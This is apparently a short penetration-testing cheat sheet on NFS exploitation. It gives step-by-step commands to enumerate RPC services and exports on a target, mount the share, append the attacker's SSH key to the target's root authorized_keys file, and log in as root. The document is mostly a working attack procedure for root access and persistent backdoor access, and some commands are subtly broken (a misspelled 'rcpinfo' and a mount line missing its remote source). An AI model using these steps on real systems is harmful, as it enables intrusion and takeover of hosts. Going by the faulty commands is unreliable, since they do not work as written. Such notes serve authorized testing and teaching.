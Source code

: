 # NFS Enumeration
Network file system

## Exploiting NFS

1. Use rcpinfo to determine the services running
`rcpinfo -p 192.168.1.1`

2. Use showmount to list which directories you have access to mount.
`showmount -e 192.168.1.1`

3. Create and mount the remote directory
```sh
mkdir /mnt/nfs
mount /mnt/nfs
```

4. We notice that SSH is open, so we'll exploit that service. 
```sh
ssh-keygen
cat ~/.ssh/id_rsa.pub >> /mnt/nfs/root/.ssh/authorized_keys
```

5. At this point we can ssh into the system as the root user.
```sh
ssh root@192.168.1.1
```
